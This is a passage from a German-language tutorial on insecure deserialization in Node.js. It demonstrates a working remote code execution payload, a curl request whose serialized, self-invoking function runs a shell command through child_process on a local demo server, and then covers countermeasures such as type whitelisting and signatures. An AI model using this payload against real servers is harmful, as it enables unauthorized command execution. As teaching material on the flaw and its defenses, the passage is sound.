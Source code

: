 Das Objekt wurde deserialisiert (inkl. der Methode mit dem Schadcode),
würde diese Methode während der Request-Abarbeitung aufgerufen werden,
würde unser Kommando am Server exekutiert werden. Wir können diesen
Exploit noch verbessern indem wir durch Anhängen von ,,()” nicht nur
eine Funktion definieren, sondern diese auch direkt aufrufen. Dies würde
folgendem serialiserten String bzw. folgendem Curl-Aufruf entsprechen:

```shell
# curl Aufruf
$ curl -X POST -d "fubar={\"todo\":\"_\$\$ND_FUNC\$\$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}()\"}" http://localhost:3000/api/deserialize
```

Die Ausgabe am Server zeigt nun, dass das Kommando ausgeführt, und der
Inhalt von */bin* ausgegeben wurde:

```text
    { todo: undefined }                                                                                                                         
    [                                                                                                                                           
    2to3-2.7                                                              
    aa-enabled                                                                                                                                  
    aa-exec                                                               
    aa-features-abi                                                       
    aconnect                                                              
    acpi_listen                                                           
    add-apt-repository                                                    
    addpart                                                               
    addr2line                                                             
    afm2pl                                                                
    afm2tfm                                                               
    ag                                                                    
    aleph
    ...
```

## Gegenmaßnahmen

Die Grundidee ist es, dass der Entwickler vor der Deserialisierung
definieren muss, welche validen Objekttypen bei der Deserialisierung
vorkommen dürfen. Wie und ob dies überhaupt möglich ist, ist allerdings
von der verwendeten Programmiersprache abhängig — z.B. muss bei älteren
Java-Versionen eine externe Serialisierungsbibliothek[5] verwendet
werden um ein sicheres Verhalten zu erzielen.

Zusätzlich müssen serialisierte Daten einer Integritätssicherung
unterzogen werden (z.B. mittels einer Signatur oder eines MACs) damit
ein Angreifer die serialisierten Daten nicht verändern kann.

Da diese Sicherungsmassnahmen teilweise schwer umsetzbar sind, empfiehlt
OWASP, dass Daten nur deserialisert werden dürfen, wenn diese aus einer
authentischen und integritäts-geschützen Quelle kommen. Dadurch wird
allerdings das Grundproblem nicht gelöst, sondern wird die Verantwortung
und das Problem nur zu dem Anwender, der die Deserialisierung anstößt,
verschoben. Falls ein Angreifer das Konto dieses Anwenders übernehmen
kann, erlangt er wiederum die Möglichkeit eine Deserialisierungattacke
durchzuführen.
